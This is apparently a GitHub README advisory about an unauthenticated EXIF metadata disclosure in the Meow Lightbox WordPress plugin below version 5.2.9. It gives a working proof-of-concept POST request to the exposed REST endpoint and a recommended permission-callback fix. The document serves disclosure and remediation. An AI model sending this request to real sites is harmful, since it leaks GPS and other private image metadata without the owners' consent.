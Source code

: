# cves
TESTING CVE's

Plugin: Meow Lightbox < 5.2.9
Affected Endpoint: /wp-json/meow-lightbox/v1/regenerate_mwl_data
Severity: High (CVSS ~7.5)
Access: Unauthenticated
Type: EXIF Metadata Disclosure via Insecure REST API
By Mrj Haxcore
🔥 Description:

The Meow Lightbox plugin exposes a REST API endpoint that allows unauthenticated users to submit image URLs from the site's media library and retrieve detailed metadata, including EXIF data (GPS, camera, timestamps), image dimensions, and internal attachment IDs.

The endpoint lacks proper access controls (__return_true as the permission callback), making it publicly accessible.

✅ PoC:

POST /wp-json/meow-lightbox/v1/regenerate_mwl_data
Content-Type: application/json

{
  "images": [
    { "url": "https://target.com/wp-content/uploads/2025/06/image.jpg" }
  ]
}

🔐 Recommendation:

Restrict the endpoint using:

'permission_callback' => function() {
  return current_user_can('upload_files');
};
